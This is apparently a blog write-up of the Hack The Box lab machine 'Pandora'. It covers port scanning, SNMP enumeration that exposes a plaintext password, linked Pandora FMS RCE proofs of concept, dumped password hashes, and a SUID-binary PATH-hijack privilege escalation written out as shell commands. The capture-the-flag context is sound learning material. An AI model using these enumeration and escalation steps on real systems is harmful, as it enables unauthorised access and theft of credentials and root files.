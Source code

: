 ```yaml
---
layout: post
title: HTB - pandora
date: 2025-04-09 09:00 -0400
---
```


{{ 'pandora' | get_machine_avatar | raw }}

## nmap
```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2025-03-25 15:39 -04
Nmap scan report for 10.10.11.136
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 24c295a5c30b3ff3173c68d7af2b5338 (RSA)
|   256 b1417799469a6c5dd2982fc0329ace03 (ECDSA)
|_  256 e736433ba9478a190158b2bc89f65108 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Play | Landing
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.39 seconds
```

## main page
![panda.htb](/assets/img/pandora1.png)

- default apache 404 page
![panda.htb](/assets/img/pandora2.png)

emails:
- support@panda.htb
- contact@panda.htb

domains
- Panda.HTB

subdomain bruteforce shows nothing.
```bash
~/workspace/projects/htb/pandora » ffuf -u http://$(cat ip.txt)/ -H 'Host: FUZZ.panda.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -ac

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.136/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.panda.htb
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 50
 :: Matcher          : Response status: all
________________________________________________

:: Progress: [4990/4990] :: Job [1/1] :: 100 req/sec :: Duration: [0:00:51] :: Errors: 0 ::
```

Contact seems to be the only feature that works. Looks a lot like xss but it isn't working.
Directory listings are enabled but there is nothing interesting in it.
Next step is looking through the js files. Also nothing.

Time to check udp.

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2025-03-25 16:13 -04
Warning: 10.10.11.136 giving up on port because retransmission cap hit (10).
Nmap scan report for panda.htb (10.10.11.136)
Host is up (0.16s latency).
Not shown: 65456 open|filtered udp ports (no-response), 78 closed udp ports (port-unreach)
PORT    STATE SERVICE
161/udp open  snmp

Nmap done: 1 IP address (1 host up) scanned in 73.80 seconds
```

Cool, nmap found something.

```bash
~/workspace/projects/htb/pandora » sudo nmap -p161 --script='*snmp*' -sU $(cat ip.txt) --min-rate 10000
Starting Nmap 7.93 ( https://nmap.org ) at 2025-03-25 16:15 -04
Nmap scan report for panda.htb (10.10.11.136)
Host is up (0.26s latency).

Bug in snmp-win32-software: no string output.
PORT    STATE SERVICE
161/udp open  snmp
...
| snmp-brute:
|_  public - Valid credentials
...

Nmap done: 1 IP address (1 host up) scanned in 65.01 seconds
```

Now we dump everything with: `snmpbulkwalk -c public -v2c panda.htb` and maybe there are some creds somewhere here.

These look a lot like creds.
```bash
HOST-RESOURCES-MIB::hrSWRunParameters.1086 = STRING: "-u daniel -p HotelBabylon23"
```

And that gives us the daniel shell but no user flag.
```bash
daniel@pandora:~$ cat /etc/passwd | grep /bash
root:x:0:0:root:/root:/bin/bash
matt:x:1000:1000:matt:/home/matt:/bin/bash
daniel:x:1001:1001::/home/daniel:/bin/bash
```

```bash
matt@pandora:/tmp/tmp.44zbQs0ont# cat ~/user.txt
a162c***************************
```

So matt is probably our next target.

Interesting files on `/var/www/pandora/pandora_console/`.
![pandora console](/assets/img/pandora3.png)

Seems to be using [pandorafms](https://github.com/pandorafms/pandorafms.git) from the Dockerfile.

Looks like there is an RCE with a public poc. [POC](https://www.exploit-db.com/exploits/50961). Doesn't seem to work.

This second one does. [POC1](https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated)

Will try to bruteforce the hashes just in case matt's password is needed.
```bash
[*] None,admin@pandora.htb,ad3f741b04bd5880fb32b54bc4f43d6a
[*] None,daniel@pandora.htb,76323c174bd49ffbbdedf678f6cc89a6
[*] None,matt@pandora.htb,f655f807365b6dc602b31ab3d6d43acc
```

Nothing on crackstation.
![crackstation](/assets/img/pandora6.png)

Nothing on hashcat either.

There is an interesting suid binary.
```bash
262929     20 -rwsr-x---   1 root     matt        16816 Dec  3  2021 /usr/bin/pandora_backup
```

At first I thought I needed matt's password to run with sudo, but that is not the case.

Looking at ghidra we can see a `setreuid` call. That makes so matt keeps the root privilege when running normally.
![ghidra bin](/assets/img/pandora8.png)

And the actual bug is on `system()`. It doesn't specify a path so we can just change PATH to any script called tar.
```bash
cd $(mktemp -d)
export PATH=$(realpath .):/bin/:/usr/bin
echo 'cat /root/root.txt > /tmp/flag' > tar
chmod +x tar
/usr/bin/pandora_backup
root@pandora:/tmp/tmp.44zbQs0ont# cat ../flag
# e458b***************************
```
